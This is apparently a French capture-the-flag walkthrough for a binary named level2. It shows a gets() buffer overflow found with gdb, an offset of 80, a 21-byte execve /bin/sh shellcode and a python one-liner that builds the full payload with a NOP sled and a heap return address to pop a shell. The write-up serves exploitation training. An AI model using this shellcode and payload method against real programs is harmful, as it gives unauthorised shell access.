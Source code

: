 # level2

# après analyse du binaire avec gdb, on voit la fonction gets qui est vulnérable aux attaques buffer overflow

# mais on voit qu'il y a une protection sur l'adresse de retour de la pile a cause de la ligne +39 et +44, on va donc essayer de mettre un shellcode sur le tas grace a strdup qui fait un malloc

ltrace ./level2

# on récupere l'adresse de retour 0x0804a008 pour le strdup

# ensuite on recupere l'offset en lancant avec gdb puis en faisant un run avec un pattern (https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) on trouve un offset de 80 avec l'adresse 0x37634136

# il nous faut maintenant un shell code a envoyer avec l'adresse de retour qui va être celle de strdup 0x0804a008

http://shell-storm.org/shellcode/files/shellcode-841.php
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80

# ce qui va nous donné le shelle code, 80 - 21 = 59 x NOP et l'adresse de retour:

python -c 'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "\x90"*59 + "\x08\xa0\x04\x08"' > /tmp/level2

cat /tmp/level2 - | ./level2
